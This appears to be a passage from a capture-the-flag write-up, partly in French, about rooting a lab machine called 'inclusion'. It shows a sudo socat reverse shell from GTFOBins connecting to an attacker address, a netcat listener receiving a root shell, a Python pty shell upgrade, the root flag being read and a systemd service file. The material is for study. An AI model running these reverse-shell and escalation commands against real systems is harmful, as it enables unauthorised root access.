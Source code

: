 ### GTFOBins
https://gtfobins.github.io/gtfobins/socat/#sudo

```sh
# sudo socat tcp-connect:10.9.11.184:9001 exec:sh,pty,stderr,setsid,sigint,sane
```

```sh
# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.9.11.184] from (UNKNOWN) [10.10.115.164] 34822
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```


### Upgrade shell

```sh
# which python
which python
# which python3
which python3
/usr/bin/python3
```

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

CTRL+Z

```sh
stty raw -echo
fg
```


### get the Flag

```sh
root@inclusion:/root# cat /root/root.txt
42964104845495153909
```

## Un peu plus loin ... ya rien

```sh
~# cat /etc/systemd/system/web.service 
[Unit]
Description=web application
After=network.target
[Service]
User=root
WorkingDirectory=/opt/webapp
ExecStart=/bin/bash -c "/usr/local/bin/flask run --host=0.0.0.0 --port=80"
Restart=always
[Install]
WantedBy=multi-user.target
```
